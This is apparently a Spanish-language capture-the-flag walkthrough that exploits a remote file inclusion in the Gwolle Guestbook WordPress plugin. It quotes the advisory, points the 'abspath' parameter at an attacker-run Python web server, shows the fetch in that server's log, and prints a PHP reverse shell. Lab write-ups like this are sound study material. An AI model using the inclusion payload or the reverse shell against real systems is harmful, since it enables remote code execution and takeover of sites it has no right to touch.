 Veremos que hay un `plugin` llamado `gwolle-gb` por lo que vamos a investigar que podemos hacer con el, su `PoC` a ver cual es.

Si vamos a `ExploitDB` veremos que esta en `PoC` subido llevando a una `URL` de un archivo vulnerable pudiendo realizar un `RCE`.

```
Advisory Details:

High-Tech Bridge Security Research Lab discovered a critical Remote File Inclusion (RFI) in Gwolle Guestbook WordPress plugin, which can be exploited by non-authenticated attacker to include remote PHP file and execute arbitrary code on the vulnerable system.  

HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code. 

Successful exploitation of this vulnerability will lead to entire WordPress installation compromise, and may even lead to the entire web server compromise. 
```

Si nos abrimos un servidor de `python3` para comprobar que esto funcione...

```shell
python3 -m http.server 80
```

Ahora vamos a intentar ver si funciona.

```
URL = http://<IP>/wordpress/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://<IP_ATTACKER>/test
```

Info:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.5.78 - - [14/Aug/2025 04:04:05] code 404, message File not found
192.168.5.78 - - [14/Aug/2025 04:04:05] "GET /testwp-load.php HTTP/1.0" 404 -
```

Veremos que esta funcionando y que esta intentando descargarlo, por lo que vamos a crear un archivo en `PHP` con una `reverse shell` a ver si conseguimos un acceso inicial.

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
